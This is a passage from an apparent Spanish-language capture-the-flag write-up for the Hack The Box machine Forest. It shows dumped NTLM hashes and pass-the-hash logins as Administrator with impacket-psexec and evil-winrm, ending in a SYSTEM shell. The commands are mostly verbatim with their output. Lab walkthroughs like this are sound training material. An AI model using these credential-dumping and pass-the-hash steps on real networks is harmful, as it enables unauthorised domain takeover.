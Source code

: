 ```batch
SMB         10.10.10.161    445    FOREST           EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::
...
...
...
```
Un ataque tardado, pero exitoso.

Podemos conectarnos a la máquina como administrador usando **PsExec de impacket**, pasándole el dominio, el usuario administrador, la IP de la máquina y el hash completo del administrador:
```batch
impacket-psexec "htb.local/Administrator"@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.10.161.....
[*] Found writable share ADMIN$
[*] Uploading file mjIeKmNq.exe
[*] Opening SVCManager on 10.10.10.161.....
[*] Creating service WmpB on 10.10.10.161.....
[*] Starting service WmpB.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> cd C:\Users\Administrator\Desktop
 
C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 61F2-A88F

 Directory of C:\Users\Administrator\Desktop

09/23/2019  02:15 PM    <DIR>          .
09/23/2019  02:15 PM    <DIR>          ..
10/09/2024  09:01 AM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)  10,303,787,008 bytes free

C:\Users\Administrator\Desktop> type root.txt
```

Por último, lo probamos con **Evil-WinRM**, indicando el hash de la contraseña del administrador:
```batch
evil-winrm -i 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6'
                                        
Evil-WinRM shell v3.5
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator
```
Hemos completado la máquina.
